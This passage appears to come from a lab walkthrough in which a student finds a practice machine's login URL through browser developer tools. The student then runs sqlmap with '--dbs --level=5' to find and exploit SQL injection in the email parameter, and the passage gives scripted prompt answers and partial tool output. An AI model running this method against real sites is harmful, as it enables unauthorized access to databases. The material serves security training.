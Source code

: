 So, to get the complete URL along with its GET parameters, we need to right-click on the login page and click the inspect option (the process may vary slightly from browser to browser). From here, we have to select the Network tab; then we have to enter some test credentials in the username and password fields and click the login button, and we will be able to see the GET request. Click on that request, and we can see the complete GET request with the parameters. We can copy this complete URL and use it with the SQLMap tool to discover SQL injection vulnerabilities inside it and exploit it. The complete request is shown in the screenshot below:

![Find GET)](./assets/three.png)

>Note: If you are unable to extract the URL by the above process, you can copy it from below:

`http://MACHINE_IP/ai/includes/user_login?email=test&password=test`

Run the commands as discussed in the previous task on this URL and answer the questions given in this task. Also, remember to include your URL inside single quotes '. This is to avoid errors with special characters in the terminal such as `?`.

Important Note: You may not get the results by the simple scan; add `--level=5` at the end of your commands to perform the in-depth scans. Secondly, while running the commands, the tool may ask you some questions; make sure to respond to them as follows to run the scan smoothly:

>It looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]: `y`
>For the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n]: `y`
>Injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]: `y`
>GET parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N]: `n`

```shell
root@ip-10-10-129-125:~# sqlmap -u 'http://10.10.32.196/ai/includes/user_login?email=test&password=test' --dbs --level=5
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:40:50 /2025-10-16/
```